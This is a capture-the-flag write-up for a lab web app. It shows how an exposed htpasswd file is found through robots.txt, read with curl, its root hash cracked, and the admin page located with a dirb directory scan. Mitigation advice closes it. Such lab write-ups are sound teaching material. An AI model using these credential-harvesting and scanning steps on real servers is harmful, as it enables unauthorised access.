


# Exploit

If we check the robots.txt, we can see a /whatever directory, with an htpasswd inside:

  


We can't display htpasswd's content in the browser, as it's an octet stream.
If we use curl:

```
[darkly@darkly] ~/03-sensitive_data_exposure # curl http://192.168.0.160/whatever/htpasswd
root:8621ffdbc5698829397d97767ac13db3
```

Let's try to see if we can crack it on [https://crackstation.net]:



We have no success loging via the Sign In form with the root:dragon credentials.

Let's try to see if there's a page dedicated to root users, by using the `dirb` web content scanner.

```
[darkly@darkly] ~/03-sensitive_data_exposure/Ressources # dirb http://192.168.0.160

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Nov 19 00:45:53 2020
URL_BASE: http://192.168.0.160/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.160/ ----
==> DIRECTORY: http://192.168.0.160/admin/
==> DIRECTORY: http://192.168.0.160/audio/
==> DIRECTORY: http://192.168.0.160/css/
==> DIRECTORY: http://192.168.0.160/errors/
+ http://192.168.0.160/favicon.ico (CODE:200|SIZE:1406)
==> DIRECTORY: http://192.168.0.160/fonts/
==> DIRECTORY: http://192.168.0.160/images/
==> DIRECTORY: http://192.168.0.160/includes/
+ http://192.168.0.160/index.php (CODE:200|SIZE:6892)
==> DIRECTORY: http://192.168.0.160/js/
+ http://192.168.0.160/robots.txt (CODE:200|SIZE:53)
==> DIRECTORY: http://192.168.0.160/whatever/

---- Entering directory: http://192.168.0.160/admin/ ----
==> DIRECTORY: http://192.168.0.160/admin/css/
==> DIRECTORY: http://192.168.0.160/admin/fonts/
+ http://192.168.0.160/admin/index.php (CODE:200|SIZE:1432)

---- Entering directory: http://192.168.0.160/audio/ ----

---- Entering directory: http://192.168.0.160/css/ ----
==> DIRECTORY: http://192.168.0.160/css/images/

---- Entering directory: http://192.168.0.160/errors/ ----

---- Entering directory: http://192.168.0.160/fonts/ ----

---- Entering directory: http://192.168.0.160/images/ ----

---- Entering directory: http://192.168.0.160/includes/ ----

---- Entering directory: http://192.168.0.160/js/ ----

---- Entering directory: http://192.168.0.160/whatever/ ----
+ http://192.168.0.160/whatever/htpasswd (CODE:200|SIZE:38)

---- Entering directory: http://192.168.0.160/admin/css/ ----
==> DIRECTORY: http://192.168.0.160/admin/css/images/

---- Entering directory: http://192.168.0.160/admin/fonts/ ----

---- Entering directory: http://192.168.0.160/css/images/ ----

---- Entering directory: http://192.168.0.160/admin/css/images/ ----

-----------------
END_TIME: Thu Nov 19 00:46:16 2020
DOWNLOADED: 64568 - FOUND: 5

```

Heading to the admin page, we can fill out login and password and get the flag:


# Mitigating the risk

If you use the X-Robots-Tag header, you can control what is displayed in the Robots.txt.

Although using htaccess and htpasswd to handle authentication cannot be completely foolproof, several steps can help migitate the risk:

- Choose a more complex password
- Never put the htpasswd in public directories or within the web servers URI space, as discussed[here](https://httpd.apache.org/docs/2.4/programs/htpasswd.html) - and don't rely on "hidden" directories
- Add protection with rules, such as specified in the nginx [official doc](https://docs.nginx.com/nginx/admin-guide/security-controls/configuring-http-basic-authentication/), or via .htaccess and httpd.conf if using Apache, as discussed [here](https://stackoverflow.com/questions/12291080/proper-htpasswd-usage).
